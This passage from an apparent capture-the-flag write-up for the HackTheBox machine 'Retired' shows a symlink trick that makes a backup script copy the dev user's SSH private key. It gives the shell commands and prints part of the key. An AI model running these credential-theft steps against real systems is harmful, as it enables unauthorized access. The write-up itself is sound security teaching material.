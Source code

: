 The service is being run by user dev, let's look at /home:

```sh
www-data@retired:/var/www/html$ ls -l /home
drwx------ 6 dev dev 4096 Mar 11 14:36 dev
```

## Symbolic Link

We see dev is the only user but we can't look inside. Thinking back to the start we saw port 22 open on the nmap scan. So safe to assume the dev user will have access, which probably means an id_rsa key pair for ssh access in their .ssh folder. We have permissions to create a symbolic link in the folder being backed up to a file in dev home folder because the script is running in their context. So just do it like we did in [Seal](https://pencer.io/ctf/ctf-htb-seal/):

```sh
www-data@retired:/var/www/html$ ln -s /home/dev/.ssh/id_rsa /var/www/html/id_rsa

ww-data@retired:/var/www/html$ ls -l
-rw-rwSrw- 1 www-data www-data   585 Oct 13  2021 activate_license.php
drwxrwsrwx 3 www-data www-data  4096 Mar 11 14:36 assets
-rw-rwSrw- 1 www-data www-data  4144 Mar 11 11:34 beta.html
drwxrwsrwx 2 www-data www-data  4096 Mar 11 14:36 css
-rw-rwSrw- 1 www-data www-data 11414 Oct 13  2021 default.html
lrwxrwxrwx 1 www-data www-data    21 Jun 25 11:46 id_rsa -> /home/dev/.ssh/id_rsa
-rw-rwSrw- 1 www-data www-data   348 Mar 11 11:29 index.php
drwxrwsrwx 2 www-data www-data  4096 Mar 11 14:36 js
```

We see our symbolic link in there, now wait for the script to run. When the new backup is there copy it out so it doesn't get removed and unzip:

```sh
ww-data@retired:/var/www/html$ cd /dev/shm
www-data@retired:/dev/shm$ cp /var/www/2022-06-25_11-47-04-html.zip .
www-data@retired:/dev/shm$ unzip 2022-06-25_11-47-04-html.zip 
Archive:  2022-06-25_11-47-04-html.zip
   creating: var/www/html/
   creating: var/www/html/js/
<SNIP>
```

Now we can see the id_rsa we've copied in to that backup:

```sh
www-data@retired:/dev/shm/var/www/html$ cat id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAA
BAAABlwAAAAdzc2gtcnNhAAAAAwEAAQAAAYEA58qqrW05/urHKC
CqCgcIPhGka60Y+nQcngHS6IvG44gcb3w0HN/yfdb6Nzw5wfLeL
D4uDt8k9M7RPgkdnIRwdNFxleNHuHWmK0j7OOQ0rUsrs8LudOdk
<SNIP>
7rTyG3wbNka1sAAAALZGV2QHJldGlyZWQ=
-----END OPENSSH PRIVATE KEY-----
```
